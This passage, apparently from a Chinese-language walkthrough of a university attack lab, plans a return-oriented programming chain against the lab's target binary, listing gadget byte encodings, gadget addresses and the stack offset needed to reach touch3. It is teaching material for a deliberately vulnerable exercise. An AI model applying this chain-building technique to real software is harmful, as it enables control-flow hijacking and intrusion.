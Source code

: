 那么我们可以采取的方式是：

```
1. rax = rsp(48 89 e0)
2. 偏移量存储在栈上；popq %eax；edx = eax；(89 c2) ecx = edx；(89 d1) rsi = ecx(89 ce)
3. rdi = rax(<setval_210> 中的 48 89 c7)
4. rax = rdi + rsi（lea指令）
5. rdi = rax(<setval_210> 中的 48 89 c7)
6. ret
7. 将攻击字符串放在%rsp + offset 处
```

但是现在问题来了，`%rax`既要存储偏移量，又要存储`%rsp`，我们能否换个地方存储`%rsp`呢，其实可以把第 2 步和第 3 步换一下，让`%rax`转储到`%rdi`里去就行。最终步骤如下：

```
1. rax = rsp(48 89 e0)
2. rdi = rax(<setval_210> 中的 48 89 c7)
3. 偏移量存储在栈上；popq %eax；edx = eax；(89 c2) ecx = edx；(89 d1) rsi = ecx(89 ce)
4. rax = rdi + rsi（lea指令）
5. rdi = rax(<setval_210> 中的 48 89 c7)
6. ret
7. 将攻击字符串放在%rsp + offset 处
```

其中`gadget`的地址为：(单独的 gadget 地址见前文)

1. `rax = rsp` -> `401a06`
2. `rdi = rax` -> `4019c5`
3. `popq %eax` -> `4019ab`
4. 偏移量存储在栈上
5. `edx = eax` -> `4019dd`
6. `ecx = edx` -> `401a69`
7. `rsi = ecx` -> `401a13`
8. `rax = rdi + rsi` -> `4019d6`
9. `rdi = rax` -> `4019c5`
10. `touch3`地址 -> `4018fa`

因为在执行第一条`rax = rsp`时，已经执行了一次`ret`指令，因此此时`%rsp`在`buf + 48`处，也就是返回地址已经被弹出了一个。所以在`buf + 48`后面是 9 个地址 + 数据，因此偏移量应该是 `9 * 8 = 72`，转化为 16 进制就是`0x48`。最终的栈结构如下：

